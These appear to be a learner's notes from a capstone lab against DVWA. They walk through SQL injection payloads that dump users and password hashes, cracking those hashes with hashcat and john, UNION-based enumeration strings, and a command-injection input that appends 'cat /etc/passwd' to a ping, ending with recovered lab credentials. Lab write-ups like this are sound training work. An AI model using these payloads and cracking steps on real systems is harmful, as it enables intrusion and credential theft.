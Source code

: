 I manged to use sql to show the user database and password.

```
1' OR 1=1 UNION SELECT user_id, password FROM users #
```

![[Pasted image 20240620141258.png]]

I can now crack the passwords with hashcat and john.

```
hashcat -m 0 -a 0 -o cracked.txt hashes.txt /usr/share/wordlists/rockyou.txt 
```

![[Pasted image 20240620142548.png]]

The first hash is the admin pass that i used to log in.

I did all of the passes just in case they are needed later:

![[Pasted image 20240620144918.png]]

```
john --show --format=RAW-MD5 hashes.txt
```

Having trouble logging in for some reason. I realise i must not have the correct username.

##### Task

###### Locate and open the file with Challenge 1 code.

1. Log into **172.17.0.2** as **Gordon Brown**.
2. Locate and open the flag file in the user's home directory.

I need to find his username so i'm going through some union attacks.

Finding the number of tables

```
1 UNION SELECT null,null--'
```

![[Pasted image 20240620152856.png]]

We can also do `order by` to find the columns:

![[Pasted image 20240620154235.png]]

![[Pasted image 20240620154259.png]]

I try to determine if the columns are strings or numbers by changing the null to either a number or string to see if the server returns an error, in this case they are numbers.

We use the firefox extension hackbar to help us enumerate, but we could have just as easily used Burp:
![[Pasted image 20240620155624.png]]

```
http://172.17.0.2/dvwa/vulnerabilities/sqli/?id=%27 UNION SELECT 1,CONCAT_WS(CHAR(32,58,32),user(),database(),version()) -- &Submit=Submit#
```

I find some more strings from hacktricks
```
SELECT group_concat(<COLUMN>) FROM <TABLE>
SELECT group_concat(if(strcmp(table_schema,database()),table_name,null))
SELECT group_concat(CASE(table_schema)When(database())Then(table_name)END)
```

---

I remembered about command injection and tried to see if i could get a username from that.

```
192.168.78.6;cat /etc/passwd
```

I get gordons username by simply adding on another command to the initial ping, and i'm quite annoyed i didn't try it out already. It must have been one of the only name combos i didn't try, but that's okay! 

![[Pasted image 20240620160856.png]]

We can now log in and finish part one of the capstone, but it's getting late so i'll have to start first thing in the morning. 

Username:gordonb
Password:abc123

Before i finish, i log into the gordonb account to verify it's correct, and it is.

![[Pasted image 20240620161100.png]]

And we get the code:

![[Pasted image 20240620161334.png]]

---

